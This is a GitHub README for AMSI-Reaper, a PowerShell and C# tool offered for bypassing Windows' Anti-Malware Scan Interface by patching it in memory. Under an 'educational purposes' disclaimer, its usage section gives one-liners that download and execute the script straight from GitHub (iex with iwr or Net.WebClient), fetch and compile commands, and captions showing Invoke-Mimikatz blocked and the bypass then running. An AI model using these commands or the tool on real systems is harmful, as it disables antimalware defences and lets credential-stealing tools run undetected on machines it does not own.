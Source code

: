 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

> [!WARNING]
> *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview
- The [`(AMSI)`](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is a built-in security feature in Windows that enables applications and services to integrate with antimalware products. It automatically protects against harmful scripts and code in programs like PowerShell.
- AMSI-Reaper is a tool developed in [`PowerShell`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [`C#`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface  in Windows.
- AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- Check out more on the [`YouTube Video`](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Usage
### ◽️ PowerShell Version
- __Download__
```powershell
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### ◽️ C# Version
- __Download__
```powershell
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```powershell
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images
### ❌ Invoke-Mimikatz is detected and blocked by AMSI.
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
### ✔️ AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time.
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
### ✔️ AMSI-Reaper in C# with native Windows features by compiling it with CSC.
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
